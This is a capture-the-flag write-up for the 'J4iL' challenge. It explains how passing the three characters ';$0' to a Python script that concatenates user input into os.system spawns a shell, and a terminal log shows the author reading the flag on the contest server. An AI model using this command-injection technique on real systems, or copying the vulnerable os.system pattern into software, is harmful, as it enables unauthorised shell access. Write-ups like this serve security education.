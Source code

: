 # J4iL
## Write up

we were given this script

```py
import os
try:
    a = input('a = ')[0] 
    b = input('b = ')[0]
    c = str(float(input('c = ')))[0]
    assert all([len(i)>0 for i in [a,b,c]])
    
    os.system("echo you cant break me hehe ... " + a+b+c)
except:
    print('No No No, you can\'t do that!')    
    
```

the program takes 2 charecters and a number and pass them to os.system 

```py
os.system("echo you cant break me hehe ... " + a+b+c)
```
so the solution is to inject a something so when it get excuted we get the shell

so the solution was:

we can use the dollar sign **$** to call any env variable 
but the one interesting env variable that we need is **0** which represent the shell we are using
>for ex : bash, sh or zsh 


so the first charecter must be **;** to end the first 
the second charecter must be **$** to select an env variable
the third charecter must be **0** to select the env variable 0 which represents the shell 

so the command excuted will be 

```py
os.system("echo you cant break me hehe ... " + ";$0")
```

so it will call bash for us and we get a shell
```
┌──(fodhil㉿F0DH1L)-[~/ctf/hackINI2K24_writeups/misc/J4iL]
└─$ ncat -v --ssl J4iL.hackini24.shellmates.club 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: SSL connection to 35.198.143.192:443.
Ncat: SHA-1 fingerprint: 1174 7CA5 B188 6BAD 4726 2972 BE2F 6433 71B4 56D0
a = ;
b = $
c = 0
you cant break me hehe ...
ls
flag.txt
script.py
cat flag.txt
shellmates{e5C4pe_fR0M_py7h0n_70_$h}history

```

<img src="./pow.png"
     alt="Markdown Monster icon"
     style="
     width: 80%;
     diplay: box;"
/>